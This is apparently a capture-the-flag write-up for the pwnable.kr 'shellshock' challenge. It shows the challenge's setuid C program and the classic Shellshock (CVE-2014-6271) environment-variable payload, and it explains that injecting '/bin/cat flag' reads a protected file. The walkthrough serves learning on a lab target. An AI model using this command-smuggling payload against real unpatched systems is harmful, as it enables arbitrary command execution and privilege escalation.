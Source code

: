 # **shellshock**

```ssh shellshock@pwnable.kr -p2222```

```
#include                                                 
int main(){                                                       
        setresuid(getegid(), getegid(), getegid());               
        setresgid(getegid(), getegid(), getegid());               
        system("/home/shellshock/bash -c 'echo shock_me'");       
        return 0;                                                 
}
```

Here, the name of this challenge is also a hint of it.

![](https://i.imgur.com/KXl1GC0.png)

So, the source code is really clearly that it set real effective set userId and groupId for calling the vulnerable CVE-2014-6271 bash.

The sample payload of this vulnerability is: 
```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

```() { :;}``` means setting /bin/true to environment and return true then finish.

However, if this shell are in vulnerable version, it will execute the code between ```env x='() { :;};``` and ```' bash -c "echo this is a test"```.

Like this sample, it will print out `vulnerable` to shell, if the shell is vulnerable.

![](https://i.imgur.com/1jGyh5v.png)

You can see that the shell given by challenge isn't vulnerable but `./shellshock` is.

All the code in `shellshock` all lead to return a vulnerable shell by changing `real effective set userID` and `groupID`.

So, we can simply `/bin/cat flag` to make it print out the falg.

![](https://i.imgur.com/s0qtVjV.png)


